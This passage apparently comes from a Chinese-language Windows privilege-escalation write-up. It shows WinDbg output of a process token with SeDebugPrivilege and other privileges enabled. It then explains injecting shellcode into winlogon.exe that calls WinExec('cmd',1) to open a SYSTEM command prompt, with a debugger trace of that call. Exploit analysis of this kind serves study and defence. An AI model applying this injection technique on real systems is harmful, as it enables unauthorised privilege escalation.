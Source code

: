 ```
 13 0x00000000d SeProfileSingleProcessPrivilege   Attributes - Enabled 
 14 0x00000000e SeIncreaseBasePriorityPrivilege   Attributes - Enabled 
 15 0x00000000f SeCreatePagefilePrivilege         Attributes - Enabled 
 16 0x000000010 SeCreatePermanentPrivilege        Attributes - Enabled 
 17 0x000000011 SeBackupPrivilege                 Attributes - Enabled 
 18 0x000000012 SeRestorePrivilege                Attributes - Enabled 
 19 0x000000013 SeShutdownPrivilege               Attributes - Enabled 
 20 0x000000014 SeDebugPrivilege                  Attributes - Enabled 
 21 0x000000015 SeAuditPrivilege                  Attributes - Enabled 
 22 0x000000016 SeSystemEnvironmentPrivilege      Attributes - Enabled 
 23 0x000000017 SeChangeNotifyPrivilege           Attributes - Enabled Default 
 25 0x000000019 SeUndockPrivilege                 Attributes - Enabled 
 28 0x00000001c SeManageVolumePrivilege           Attributes - Enabled 
 29 0x00000001d SeImpersonatePrivilege            Attributes - Enabled 
 30 0x00000001e SeCreateGlobalPrivilege           Attributes - Enabled Default 
 31 0x00000001f SeTrustedCredManAccessPrivilege   Attributes - Enabled 
 32 0x000000020 SeRelabelPrivilege                Attributes - Enabled 
 33 0x000000021 SeIncreaseWorkingSetPrivilege     Attributes - Enabled 
 34 0x000000022 SeTimeZonePrivilege               Attributes - Enabled 
 35 0x000000023 SeCreateSymbolicLinkPrivilege     Attributes - Enabled 
 36 0x000000024 SeDelegateSessionUserImpersonatePrivilege  Attributes - Enabled 
Authentication ID:         (0,7bc1d)
Impersonation Level:       Anonymous
TokenType:                 Primary
Source: User32             TokenFlags: 0x2a00 ( Token in use )
Token ID: 142b23           ParentToken ID: 0
Modified ID:               (0, 7bc2a)
RestrictedSidCount: 0      RestrictedSids: 0x0000000000000000
OriginatingLogonSession: 3e7
PackageSid: (null)
CapabilityCount: 0      Capabilities: 0x0000000000000000
LowboxNumberEntry: 0x0000000000000000
Security Attributes:
Unable to get the offset of nt!_AUTHZBASEP_SECURITY_ATTRIBUTE.ListLink
Process Token TrustLevelSid: (null)

```

由于程序已经获得了 SeDebugPrivilege 特权，因而可通过向 winlogon.exe 程序注入 shellcode 来进行下一步操作，在此 shellcode 中最终会调用 WinExec(“cmd”，1)，从而以 system 权限打开 cmd 窗口。

```
0033:00000151`719d005d ffd7     call    rdi {KERNEL32!WinExec (00007ffb`6e53e800)}
0033:00000151`719d005f 4883c430 add     rsp, 30h
0033:00000151`719d0063 5d       pop     rbp
0033:00000151`719d0064 5f       pop     rdi
0033:00000151`719d0065 5e       pop     rsi
2: kd> 
0033:00000151`719d005d ffd7            call    rdi
2: kd> db rcx
00000041`398ff888  63 6d 64 00 00 00 00 00-00 00 00 00 00 00 00 00  cmd.............
2: kd> r rdx
rdx=0000000000000001

```
